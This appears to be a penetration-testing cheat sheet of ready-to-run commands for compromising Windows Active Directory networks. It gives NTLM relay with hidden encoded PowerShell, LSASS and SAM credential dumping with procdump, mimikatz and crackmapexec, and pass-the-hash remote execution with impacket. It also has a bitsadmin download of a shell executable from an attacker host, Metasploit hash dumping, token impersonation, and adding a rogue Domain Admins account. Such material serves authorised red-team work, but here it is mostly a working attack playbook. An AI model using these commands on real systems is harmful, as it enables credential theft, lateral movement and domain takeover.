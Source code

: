 # Active Directory

## NTLM Relay Attack

```
cme --timeout 5 --verbose smb 172.0.0.1/24 --gen-relay-list targets.txt
```

```
python RunFinger.py -g -i 172.0.0.1/24
```

```
python Responder.py -I <interface> -r -d -w
```

```
echo "powershell_command_string" | iconv --to-code UTF-16LE | base64 -w 0
```

```
ntlmrelayx.py -tf targets.txt -c 'powershell.exe -NoP -sta -NonI -W Hidden -Enc {base64_code}'
```

```
ntlmrelayx.py -tf targets.txt -c <Empire Powershell launcher>
```

## Check Password Policy on Network Domain

* [https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/](https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/)

```
gpedit.msc
```

Now go to `Computer Configuration/Windows Settings/Security Settings/Password Policy`

## Dump LSASS

* [https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

```
C:\\temp\\procdump.exe -accepteula  -ma lsass.exe lsass.dmp
#For 32 bits


C:\\temp\\procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp  
#For 64 bits
```

Download the file lsass.dmp generated.Launch mimikatz against the lsass.dmp file with the commands:

```
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full



# use with -r to clone and then dump LSASS
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

## Dumping SAM

### Dump Sam File

```
crackmapexec smb 10.0.0.75 -d ADMIN -u JSMITH -p 'P@ssWord!' --sam
```

### Check for Local Account Credential Reuse with SAM file hash

```
crackmapexec smb /root/Desktop/networks.txt -d WORKGROUP -u Administrator -H <LM:NTLM HASH>
```

## Network Share Auditing

* [https://github.com/Dionach/ShareAudit/blob/master/README.md](https://github.com/Dionach/ShareAudit/blob/master/README.md)

## Impacket Tools

### WMIEXEC

```
./wmiexec.py -hashes <NTLM Hash> Administrator@10.0.4.21
```

### Secrets Dump

```
impacket-secretsdump -hashes <LTM:NTLM Hash> -just-dc insecuredomain.local/Administrator\$@10.0.64.22
```

### SMBEXEC

```
/usr/local/bin/smbexec.py -hashes <LM:NTLM Hash> Administrator@10.0.65.81
```

## PowerShell Execution Policy Disable:

```
powershell.exe -exec bypass -nop
```

## Bitsadmin

```
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.65.37:8000/shell1.exe c:\shell1.exe
```

## Bits Transfer (Power Shell)

[https://adamtheautomator.com/powershell-download-file/](https://adamtheautomator.com/powershell-download-file/)

The fundamental way to use `Start-BitsTransfer` in PowerShell to download a file is to specify a source and destination. Using the script below, you only need to change the `$source` and `$destination` values according to your requirements.

```powershell
$source = 'http://speedtest.tele2.net/100MB.zip'
$destination = 'c:\dload\100MB.zip'
Start-BitsTransfer -Source $source -Destination $destination
```

### Downloading a File using System.Net.WebClient <a href="#h-downloading-a-file-using-system-net-webclient" id="h-downloading-a-file-using-system-net-webclient"></a>

To use the WebClient class, you need to initiate an object as a `System.Net.WebClient` \*\*type. In the example below, the `$webClient` is the new `System.Net.WebClient` object. Then, using the `DownloadFile()` method starts the download of the file from the source.

_**Related:**_ [_**Using PowerShell Data Types Accelerators to Speed up Coding**_](https://adamtheautomator.com/powershell-data-types/)

Please copy the code below and run it in your PowerShell session to test. Note that you will not see any progress or output on the screen unless there’s an error. However, the PowerShell prompt will be locked until the download is complete.

```powershell
# Define the source link and destination path
$source = 'http://speedtest.tele2.net/10MB.zip'
$destination = 'c:\dload\10MB.zip'
# Create the new WebClient
$webClient = [System.Net.WebClient]::new()
# Download the file
$webClient.DownloadFile($source, $destination)
```

## Python Web Server

```
python –m SimpleHTTPServer
```

## Escalation to Domain Admin

### After compromising a Windows machine:

### List the domain administrators from a command prompt:

```
net group "Domain Admins" /domain
```

### Dump the hashes (Metasploit)

```
msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE
```

### Find the admins (Metasploit)

```
spool /tmp/enumdomainusers.txt
msf > use auxiliary/scanner/smb/smb_enumusers_domain
msf > set smbuser Administrator
msf > set smbpass <LM:NTLM Hash>
msf > set rhosts 10.0.0.0/24
msf > set threads 8
msf > run
msf> spool off
```

### Compromise Admin's box

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token MYDOMAIN\\\\adaministrator
meterpreter > getuid
meterpreter > shell
```

```
C:\\> whoami
mydom\\adaministrator
C:\\> net user hacker /add /domain
C:\\> net group "Domain Admins" hacker /add /domain
```

## References:

* [https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons#interactive-logon-2-via-runas-and-domain-account](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons#interactive-logon-2-via-runas-and-domain-account)
* [https://www.bleepingcomputer.com/news/microsoft/microsoft-defender-can-ironically-be-used-to-download-malware/](https://www.bleepingcomputer.com/news/microsoft/microsoft-defender-can-ironically-be-used-to-download-malware/)
* [https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)
* [https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/)
* [https://wiki.wizard32.net/xwiki/bin/view/Penetration Testing\_Red Teaming/NTLM Relay Attack/](https://wiki.wizard32.net/xwiki/bin/view/Penetration%20Testing\_Red%20Teaming/NTLM%20Relay%20Attack/)
* h[ttps://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/](https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/)

